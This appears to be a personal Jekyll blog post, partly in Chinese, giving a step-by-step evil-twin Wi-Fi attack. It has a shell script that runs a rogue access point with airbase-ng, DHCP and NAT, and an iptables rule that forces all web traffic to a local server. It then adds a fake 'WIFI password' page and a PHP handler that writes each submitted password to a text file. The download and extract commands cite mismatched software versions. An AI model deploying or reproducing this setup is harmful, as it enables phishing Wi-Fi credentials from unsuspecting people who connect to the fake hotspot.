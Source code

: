 ```yaml
---
layout: post
title: "airbase ng+dhcp+lamp+wiwiz"
description: ""
category: 
tags: []
---
```

{% include JB/setup %}

## Make wifi as a hot point
 
#### Make a script

	echo $0 $1
	case $1 in
	     "start")
	       sleep 1
	       ifconfig wlan0 down
	       sleep 1
	       iwconfig wlan0 mode monitor
	       sleep 1
	       ifconfig wlan0 up
	       sleep 2
	       airmon-ng start wlan0
	       sleep 1
	       airbase-ng -e 888888 -c 11 wlan0
	       sleep 1
	    ;;
	    "atup")
	       sleep 1
	       ifconfig at0 192.168.2.1 netmask 255.255.255.0
	       sleep 1
	       ifconfig at0 up
	       sleep 1
	       route add -net 192.168.2.0 netmask 255.255.255.0 gw 192.168.2.1
	       sleep 1
	#       echo "1" >/proc/sys/net/ipv4/ip_forward
	       sysctl -w net.ipv4.ip_forward=1
	       sleep 2
	       dhcpd -cf /etc/dhcp/dhcpd.conf -pf /var/run/dhcpd.pid at0
	       sleep 2
	       service isc-dhcp-server restart
	       sleep 1
	    ;;
	    "startnat")
	       sleep 1
	       iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
	       sleep 1
	       iptables -A FORWARD -i wlan0 -o eth0 -j ACCEPT
	       sleep 1
	       iptables -A FORWARD -p tcp --syn -s 192.168.2.0/24 -j TCPMSS --set-mss 1356
	       iptables -t nat -A PREROUTING -p tcp -m multiport --dport 80,8080 -j DNAT --to 192.168.2.1:80
	    ;;
	    *)
	       echo "usage $0 {start|atup|startnat}"
	    ;;
	esac

#### Start wifi as a hot point
	sudo ./cr_wifi start
	sudo ./cr_wifi atup

## Deploy wiwiz
	sudo cd /
	sudo wget http://dl.wiwiz.com/hsbuilder-util-latest.tar.gz
	sudo tar -zxf hsbuilder-util-latest.tar.gz
	sudo /usr/local/hsbuilder/hsbuilder_setup.sh setup

	然后根据各步提示完成设置。以下是各步提示的说明：	
	“please select External NIC (typically the one going out to the Inernet):”– 此步请选择接入到Internet的网络接口。	
	“please select Internal NIC (typically your wifi interface):”– 此步请选择接入到局域网/无线局域网的网络接口。	
	“please input Hotspot ID:” — 此步请输入你在Wiwiz Web面板中创建的热点的Hotspot ID（不是热点的名称，也不是你的无线网络的SSID）。	
	“please input User Name:” — 此步请输入你的Wiwiz注册用户名。	
	“please input Server Address and Port:” — 此步请保持默认值。	
	“Do you want DHCP service to be configured? If you select No to skip it, you need to configure DHCP service manually later.” — 此步请选择是否让Wiwiz HotSpot Builder Utility自动配置DHCP服务。如果选择是，请继续以下的步骤。	
	“DHCP Setting: please input Network IP:” — 此步请输入你的局域网/无线局域网的网络IP。例如：192.168.1.0代表的是192.168.1.xxx网段。	
	“DHCP Setting: please input NET MASK:” — 此步请输入你的局域网/无线局域网的掩码。	
	“DHCP Setting: please input IP of Gateway (it should be the IP of this machine):” — 此步请输入今后的局域网/无线局域网的网关地址，即这台计算机的Internal NIC的IP地址（一般保留默认值即可）。	
	“DHCP Setting: please input DNS:” — 此步请输入DNS地址。默认值为程序自动检测到的DNS地址。也可以指定其他可用的DNS地址，推荐指定ISP提供的DNS地址。	
	“DHCP Setting: please input IP Range of this Network:” — 此步请输入DHCP地址分配范围。一般保留默认值即可。	
	最后，如果没有报错信息并看到“HSBuilder Setup Completed!”的提示文字，那么安装已经完成了。

## Deploy LAMP

### Install LAMP
	sudo wget http://dl.cnezsoft.com/zentao/8.0.1/ZenTaoPMS.8.0.1.zbox_32.tar.gz
	sudo tar zxvf  ZenTaoPMS.7.3.stable.zbox_32.tar.gz  -C /opt/

	1、执行/opt/zbox/zbox start 命令开启Apache和Mysql。
	   执行/opt/zbox/zbox stop 命令停止Apache和Mysql。
	   执行/opt/zbox/zbox restart 命令重启Apache和Mysql。
	   可以使用/opt/zbox/zbox -h命令来获取关于zbox命令的帮助
	   其中 -ap参数 可以修改Apache的端口，-mp参数 可以修改Mysql的端口
	2、浏览器访问 http://ip:端口
	3、数据库的用户名：root，密码为空。数据库管理用的是adminer，但是为了安全，访问adminer的时候需要身份验证，需要运行/opt/zbox/auth/adduser.sh来添加用户(先 cd /opt/zbox/auth/ 然后执行 ./adduser.sh)。
	3、网页访问禅道，点击数据库管理有2层验证：
	1）弹窗验证是输入运行 addusers.sh添加的帐号和密码；
	2）网页直接显示登录界面：服务器：127.0.0.1:mysql端口  帐号 root  数据库填写zentao

### Put an authorize page

Add a post

	<form action="reconnect.php" method="post">
        WIFI密码: &nbsp;&nbsp;
        <input type="password" name="wfphshr-wpa-password">
        <input id="btnSubmit" type="submit" value="提交">
    </form>

Add a action

	<?php
	date_default_timezone_set("Asia/Hong_Kong");
	$datetime = strtotime(date("Y-m-d H:i:s"));
	$myfile = fopen("./upload/passwd.txt", "ab") or die("Unable to open file!");
	$txt = $_POST["wfphshr-wpa-password"];
	fwrite($myfile, date("Y-m-d H:i:s"));
	fwrite($myfile, " ");
	fwrite($myfile, $txt);
	fwrite($myfile, "\r\n");
	fclose($myfile);
	?>

Put the page to /opt/zbox/app/htdocs

## Work together

Register a wiwiz account

Redirect the size to authorize page http://192.168.2.1